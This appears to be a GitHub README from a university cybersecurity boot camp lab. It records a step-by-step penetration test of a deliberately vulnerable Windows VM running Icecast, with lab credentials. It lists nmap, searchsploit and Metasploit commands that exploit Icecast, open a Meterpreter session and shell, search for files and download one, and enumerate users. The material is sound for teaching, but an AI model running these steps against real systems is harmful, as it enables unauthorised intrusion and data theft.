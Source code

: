<img align="left" width="100" height="100" src="https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/PenTestIcon.png" alt="hacker icon">

### Penetration Test Engagement Report

#### Lab Environment
 
| Credentials | Username | Password |
|----------|----------|------------|
| **Kali Linux VM** | root | toor |
| **DVW10 VM** | IEUser | Passw0rd! |
 

**NOTE**: We need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- Now we ready to begin the activity.

---

We've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > **ANS:** `nmap -sS -sV -O 192.168.0.20`  
       
![1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/1.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > **ANS:** `searchsploit icecast`  
  
![2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/2.png)


3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > **ANS:** `msfconsole` 
 
![3](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/3.png)


4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > **ANS:** `search icecast`  
  
![4](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/4.png)


   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > **ANS:** `use 0`  
        
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > **ANS:** `set RHOST 192.168.0.20`  

 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > **ANS:** `run`

![5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/5.png) 

  
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > **ANS:** `search -f *secretfile*.txt`  
  
![6](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/6.png) 

  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > **ANS:** `search -f *recipe*.txt`  
 
![7](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/7.png) 

 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > **ANS:** `download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’`  
      
![8](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/8.png)
![9](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/9.png)
 
8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
   
      > **ANS:** `run post/multi/recon/local_exploit_suggester`    

![10](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/10.png)

### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > **ANS:** `run post/windows/gather/enum_logged_on_users`    

![11](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/11.png)

     
B. Open a Meterpreter shell and gather system information for the target.
 
  > **ANS:** 
  
  > `shell`  
  > `systeminfo`

![12](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/12.png)
![13](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/13.png)
 
C. Run the command that displays the target's computer system information:

   > **ANS:** `sysinfo` 

![14](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/14.png)


---
___

 - Full Penetration Test Engagement Report available at [Report_10152021](Resources/Report.docx)

---
___



### Citations and References:

#### Special thanks:
© Trilogy Education Services, a 2U, Inc., Instructor Jerry and TAs; Matt, Jansen, Micheal.

© The University of Texas at Austin Boot Camp, The Cybersecurity program.

---  
